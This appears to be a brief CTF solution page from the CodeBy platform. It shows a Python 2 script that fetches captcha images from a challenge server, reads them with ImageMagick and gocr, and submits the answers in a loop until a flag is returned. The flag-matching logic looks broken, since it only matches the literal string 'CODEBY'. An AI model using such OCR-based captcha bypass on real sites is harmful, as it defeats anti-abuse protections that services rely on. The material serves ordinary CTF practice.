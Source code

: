 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d159f4ee-23a3-4b42-8342-d9ec67d040bd)

```
import os, requests, commands, re

s = requests.session()
url = "http://62.173.140.174:16036/"
s.get(url + "image.php")
while True:
	open('captcha.png', 'wb').write( s.get(url + "image.php").content )
	os.system('convert captcha.png -compress none -threshold 16% img.png')
	captcha = commands.getoutput("gocr -i img.png").strip()
	print captcha
	response = s.post(url + "image.php", {'answer' : captcha}).text
	print response
	flag = re.findall('CODEBY', response)[0].rstrip()
	if not str(flag).isdigit():
		print "[+] Flag: %s" %flag
		break
	print "[%s] Sending Captcha=%s ... "%(flag, captcha)
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db2ad7f7-907d-46e0-a020-b12d095f9775)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5f0f7ceb-c9c1-41f9-88b3-945174cf638a)
